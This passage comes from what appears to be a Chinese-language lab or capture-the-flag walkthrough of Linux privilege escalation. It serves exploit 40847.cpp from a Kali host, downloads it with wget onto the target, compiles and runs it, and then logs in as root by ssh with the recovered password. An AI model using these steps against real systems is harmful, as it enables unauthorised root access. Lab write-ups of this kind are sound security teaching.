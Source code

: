 使用下面命令时，要在

```
/home/xxb1/        目录下使用
```

```
python2 -m SimpleHTTPServer 1234 
```

![image-20220228134318225](https://gitee.com/xxb667/img/raw/master/img/image-20220228134318225.png)

## 3.3 tiago用户下载40847.cpp文件

在刚才ssh登录的tiago用户的/tmp目录下下载40847.cpp文件：

```
wget http://192.168.81.131:1234/40847.cpp
#ip地址改为自己的kali的IP
```

![image-20220228134454847](https://gitee.com/xxb667/img/raw/master/img/image-20220228134454847.png)

对40847.cpp文件进行编译：

```
g++ -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil

./40847   #这个是-o 后面的那个名字，可自定义
```

解释：

- **-O2** ：表示编译器的优化选项，
- **-std=c++11**：表示按照c++ 2011标准来编译，
- **-pthread** ：是指利用到多线程时需要用到的库(我也不知道为啥要加上这个参数，希望评论区有大神能指出)
- **-o name** ：中name表示生成的文件的名字

![image-20220228135217088](https://gitee.com/xxb667/img/raw/master/img/image-20220228135217088.png)

## 3.4 获取root权限

获取到了root的密码：

```
dirtyCowFun
```

再利用ssh登录：

```
ssh root@192.168.81.139  
```

发现登陆后已经是root了

![image-20220228135624966](https://gitee.com/xxb667/img/raw/master/img/image-20220228135624966.png)
